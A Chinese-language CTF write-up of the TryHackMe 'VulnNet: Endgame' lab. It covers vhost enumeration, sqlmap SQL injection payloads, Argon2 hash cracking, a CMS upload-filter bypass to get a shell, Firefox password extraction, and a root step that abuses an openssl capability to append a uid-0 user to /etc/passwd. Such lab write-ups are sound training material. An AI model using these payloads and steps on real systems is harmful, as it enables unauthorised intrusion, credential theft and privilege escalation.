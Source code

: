 ```yaml
---
sidebar_position: 129
tags: [Easy, Linux, SQLI, 文件上传, Capabilities]
title: "VulnNet: Endgame"
description: "VulnNet: Endgame"
sidebar_label: "VulnNet: Endgame"
slug: /tryhackme/129
---
```


# VulnNet: Endgame

![image-20240709145445985](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-145448.png)

## 端口扫描

```bash
root@ip-10-10-227-206:~/vulnnetendgame# nmap -sTCV -p 22,80 --min-rate 1000 10.10.245.192

Starting Nmap 7.60 ( https://nmap.org ) at 2023-10-02 04:44 BST
Nmap scan report for ip-10-10-245-192.eu-west-1.compute.internal (10.10.245.192)
Host is up (0.00011s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 bb:2e:e6:cc:79:f4:7d:68:2c:11:bc:4b:63:19:08:af (RSA)
|   256 80:61:bf:8c:aa:d1:4d:44:68:15:45:33:ed:eb:82:a7 (ECDSA)
|_  256 87:86:04:e9:e0:c0:60:2a:ab:87:8e:9b:c7:05:35:1c (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 02:85:92:AC:7C:DD (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80

从题目中我们知道我们需要到达一个域, 所以我们直接进行子域的扫描

```bash
root@ip-10-10-227-206:~/vulnnetendgame# gobuster vhost -u http://vulnnet.thm -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:          http://vulnnet.thm
[+] Threads:      10
[+] Wordlist:     /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.0.1
[+] Timeout:      10s
===============================================================
2023/10/02 04:45:41 Starting gobuster
===============================================================
Found: blog.vulnnet.thm (Status: 200) [Size: 19316]
Found: shop.vulnnet.thm (Status: 200) [Size: 26701]
Found: api.vulnnet.thm (Status: 200) [Size: 18]
Found: admin1.vulnnet.thm (Status: 307) [Size: 0]
```

从上面的扫描中我猜测如下:

- api.vulnnet.thm : 说明存在某个 api 我们应该重要关注此域, 一般存在漏洞

我访问 blog.vulnnet.thm 在查看网络流量时发现其会调用 api.vulnnet.thm 的请求所以我查看了网页源代码发现了 JS

![image-20240709145505796](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-145507.png)

访问此请求, 我们可以看到输出, 这很有可能存在 sqli , 所以直接 sqlmap 起跑

![image-20240709145512957](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-145514.png)

```bash
root@ip-10-10-227-206:~/vulnnetendgame# sqlmap -u http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=2 --risk 3 --level 3
---
Parameter: blog (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: blog=2 AND 6383=6383

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: blog=2 AND SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: blog=-2676 UNION ALL SELECT NULL,NULL,CONCAT(0x7170767671,0x5576667877684547426b50746f5554794b765a566763534b637357745a796371676b56657a6d7844,0x71767a6b71)-- hgOd
---
```

利用漏洞我获取了数据库的一些内容:

- 在 vn_admin 数据库中 be_users 中只有一个用户同时密码加密了
- 在 vn_admin 的数据库 fe_users  中有大量的用户, 同时也存在大量的密码, 我们可以借此构建密码表

最终我们可以解密得到一个密码

```bash
root@ip-10-10-227-206:~/vulnnetendgame# john  hash.txt --wordlist=./password.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (argon2 [Blake2 AVX])
Cost 1 (t) is 16 for all loaded hashes
Cost 2 (m) is 65536 for all loaded hashes
Cost 3 (p) is 2 for all loaded hashes
Cost 4 (type [0:Argon2d 1:Argon2i]) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
vAxWtmNzeTz      (?)
1g 0:00:05:21 DONE (2023-10-02 07:10) 0.003112g/s 1.394p/s 1.394c/s 1.394C/s ..cwoodson33
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

此时观察我们得到的各个子域, 我们应该前往 admin1.vulnnet.thm , 在此进行目录遍历, 我们可以发现一个 CMS, 使用得到的密码进行登陆, 登陆之后我们可以看到一个文件列表, 但是当我们上传文件时却不允许, 此时我们需要做一些配置来使我们可以完成上传

- settings —> Configure Installation-Wide Options —> [BE][fileDenyPattern]

我们可以在此看到拒绝我们上传了一些后缀, 我们直接将其全部删除, 并写入配置, 之后就可以实行文件上传了

![image-20240709145522421](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-145524.png)

 ## 后渗透

### www-data

访问我们上传的文件就可以得到一个 Shell

![image-20240709145536944](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-145538.png)

### www-data —> system

我在 sysytem 家目录查看时发现其存在一个特殊的目录

```bash
(remote) www-data@vulnnet-endgame:/home/system$ ls -al
total 92
.....
drwxr-xr-x  4 system system 4096 Jun 14  2022 .mozilla
....
system@vulnnet-endgame:~/.mozilla$ ls 
extensions  firefox
```

直接我做过一个类似的操作, 我们需要从浏览器中获取密码, 现在我们将此目录打包传输到本地然后使用工具进行解密, 最终从其中获取到一个密码

![image-20240709145545741](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-145547.png)

使用此密码进行登陆我们就可以获取到 system 用户的权限

![image-20240709145552548](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-145554.png)

### system —> root

我发现用户 system 有一个特殊的程序赋予了独特的capbilities

```bash
(remote) system@vulnnet-endgame:/tmp$  getcap -r / 2>/dev/null 
/home/system/Utils/openssl =ep
/snap/core20/1081/usr/bin/ping = cap_net_raw+ep
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

经过查找我发现可以利用其完成特殊的操作 [openssl](https://gtfobins.github.io/gtfobins/openssl/)

```bash
(remote) system@vulnnet-endgame:/$ cp /etc/passwd /tmp/passwd
(remote) system@vulnnet-endgame:/tmp$ echo 'FUCK:$1$admin$eiO19kFjs48pgX5PoJpXm1:0:0::/root:/bin/bash' >> ./passwd 
(remote) system@vulnnet-endgame:/tmp$ LFILE=/etc/passwd
(remote) system@vulnnet-endgame:/tmp$ cat ./passwd | /home/system/Utils/openssl enc -out /etc/passwd
(remote) system@vulnnet-endgame:/tmp$ su FUCK
Password: 
root@vulnnet-endgame:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```